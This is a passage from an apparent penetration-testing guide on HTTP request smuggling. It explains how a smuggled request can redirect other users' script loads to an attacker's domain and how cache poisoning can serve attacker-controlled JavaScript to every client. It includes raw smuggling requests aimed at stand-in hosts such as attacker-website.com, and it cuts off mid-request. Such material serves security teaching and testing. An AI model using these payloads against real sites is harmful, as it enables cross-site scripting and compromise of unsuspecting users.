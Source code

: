 This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. For example:

\`POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 54  
Connection: keep-alive  
Transfer-Encoding: chunked

0

GET /home HTTP/1.1  
Host: attacker-website.com  
Foo: X\`

The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example:

\`GET /home HTTP/1.1  
Host: attacker-website.com  
Foo: XGET /scripts/include.js HTTP/1.1  
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently  
Location: [https://attacker-website.com/home/\`](https://attacker-website.com/home/`)

Here, the user's request was for a JavaScript file that was imported by a page on the web site. The attacker can fully compromise the victim user by returning their own JavaScript in the response.

### Using HTTP request smuggling to perform web cache poisoning <a id="using-http-request-smuggling-to-perform-web-cache-poisoning"></a>

If any part of the **front-end infrastructure performs caching of content** \(generally for performance reasons\) the it **might be possible to poison that cache modifying the response of the server**.

We have already see how to modify the expected returned value from the server to a 404 \(in the [Basic Examples](http-request-smuggling.md#basic-examples)\), in a similar way you could make the server return the content of /index.html when the poisoned request is asking for `/static/include.js` . This way, the content of the `/static/include.js` will be cached with the content of `/index.html` making `/static/include.js` inaccessible to the clients \(DoS?\).

Notice this is even more interesting if you find some **Open Redirect** or some **on-site redirect to open redirect** \(last section\). Because, you could be able to **change the cache values** of `/static/include.js` with the **ones of a script controlled by you** \(making a **general XSS to all the clients** that try to download the new version of`/static/include.js`\).

In this example it's going to be shown how you can exploit a **cache poisoning + on-site redirect to open redirect** to modify the contents of the cache of `/static/include.js` to **serve JS code controlled** by the attacker:

\`POST / HTTP/1.1  
Host: vulnerable.net  
Content-Type: application/x-www-form-urlencoded  
Connection: keep-alive  
Content-Length: 124  
Transfer-Encoding: chunked
